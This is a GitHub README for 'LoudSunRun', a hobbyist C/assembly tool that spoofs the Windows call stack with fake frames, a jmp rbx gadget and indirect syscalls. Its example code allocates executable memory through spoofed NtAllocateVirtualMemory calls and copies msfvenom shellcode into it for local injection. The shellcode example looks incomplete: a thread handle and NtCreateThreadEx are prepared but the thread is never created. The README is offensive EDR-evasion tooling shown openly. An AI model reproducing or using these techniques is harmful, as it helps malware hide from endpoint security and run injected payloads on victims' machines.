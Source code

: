 # LoudSunRun
My shitty attempt at tampering with the callstack based on the work of namazso, SilentMoonWalk, and VulcanRaven

## Why?
Wanted to see how this magic shit worked and slapped random shit together. I think it works but don't quote me. All I do is stare at process hacker and go brr

## Overview
There are a few steps this abomination of c/asm does

1. Allocate args on stack
2. Generate fake frames
3. Prep syscall
4. Spoof the return address
5. Make the call

To perform these, a param struct is passed as arg 5 and the number of stack args is passed on arg 6. The param struct contains the following:
* address of the `jmp rbx` gadget  
* the original return address (for the Spoof function to return to)
* the stack sizes of our fake frames and gadget
* the address we want our fake frames to show on the call stack
* a SSN for syscalls (if included/ommited for non indirect syscalls, it does not affect anything)

The total stack size of the fake frames is calculated and the stack args are moved accordingly. A 0 is pushed onto the stack (which somehow cuts off the rest of the call stack??). 

Frames are then added, but in reverse order of appearence on the stack. They are planted like so  

1. Decrement stack pointer by the frame's size
2. Place the return address at the stack pointer

Then, the param struct is modified to "save" some information. The `fixup` function is loaded into the rbx, so when the function returns (to a `jmp rbx` gadget), it will land into `fixup`. Fixup then undoes all the funky stack pointer movement, restores the rbx, and jumps back to the OG return address.

## Implementation
A function can be called like so
```c
Spoof(arg1, arg2, arg3, arg4, &param, function, (PVOID)0);
```
Param is a struct containing some necessary information for the call to have fake frames added.  
The 6th argument is a pointer to the function to execute  
The 7th argument specifies the number of args to pass to the stack. It has to be at an 8 byte size.

Example of calling NtAllocateVirtualMemory with the indirect syscall method
```c 
/////////////////////////////
// Initialize param struct //
/////////////////////////////
PVOID ReturnAddress = NULL;
PRM p = { 0 };
NTSTATUS status = STATUS_SUCCESS;

//just find a JMP RBX gadget. Can look anywhere. I chose k32
p.trampoline = FindGadget((LPBYTE)GetModuleHandle(L"kernel32.dll"), 0x200000); 
printf("[+] Gadget is at 0x%llx\n", p.trampoline);

// Would walk export table but am lazy
ReturnAddress = (PBYTE)(GetProcAddress(LoadLibraryA("kernel32.dll"), "BaseThreadInitThunk")) + 0x14; 
p.BTIT_ss = CalculateFunctionStackSizeWrapper(ReturnAddress);
p.BTIT_retaddr = ReturnAddress;

ReturnAddress = (PBYTE)(GetProcAddress(LoadLibraryA("ntdll.dll"), "RtlUserThreadStart")) + 0x21;
p.RUTS_ss = CalculateFunctionStackSizeWrapper(ReturnAddress);
p.RUTS_retaddr = ReturnAddress;

p.Gadget_ss = CalculateFunctionStackSizeWrapper(p.trampoline);

// Hard coded for my machine, theoretically you do FreshyCalls or something
p.ssn = 0x18; 

/////////////////////////////
// Initialize Syscall Args //
/////////////////////////////

PVOID alloc = NULL;
SIZE_T size = 1024;

///////////////////////////
// Call with fake frames //
///////////////////////////

Spoof((PVOID)(-1), &alloc, NULL, &size, &p, pNtAllocateVirtualMemory, (PVOID)2, (PVOID)(MEM_COMMIT | MEM_RESERVE), (PVOID)PAGE_EXECUTE_READWRITE);

```

If your machine works like mine, it will look like this

![Call Stack](https://i.imgur.com/aHWnX4S.png)

Example calling calc
```
unsigned char buf[] = //msfvenom brrr

PVOID alloc = NULL;
SIZE_T size = 1024;

PVOID pNtAllocateVirtualMemory = (PBYTE)(GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory")) + 0x12;
PVOID pMemcpy = GetProcAddress(LoadLibraryA("msvcrt.dll"), "memcpy");
PVOID pNtCreateThreadEx = (PBYTE)(GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx")) + 0x12;

p.ssn = 0x18;
Spoof((PVOID)(-1), &alloc, NULL, &size, &p, pNtAllocateVirtualMemory, (PVOID)2, (PVOID)(MEM_COMMIT | MEM_RESERVE), (PVOID)PAGE_EXECUTE_READWRITE);
Spoof(alloc, buf, (PVOID)276, NULL, &p, pMemcpy, (PVOID)0);
p.ssn = 0xc2;
PVOID hThread = NULL;
Spoof((PVOID)INFINITE, NULL, NULL, NULL, &p, Sleep, (PVOID)0);
Sleep(2000);
```
## Concerns
I have not done extensive testing with this. I only called a few functions and tried a local shellcode injection. Could be some edge cases I haven't considered. Also I don't have a huge background in this stuff, so there could be some inaccuracies. The r10-r15, rdi, and rsi are not restored cause I was too lazy to implement that.

Please reach out to me so I can learn cause I'm dumb as fuck. Godspeed.

## Credits
namazso - Return Address Spoofing
klezvirus - SilentMoonWalk 
william-burgess - Vulcan Raven
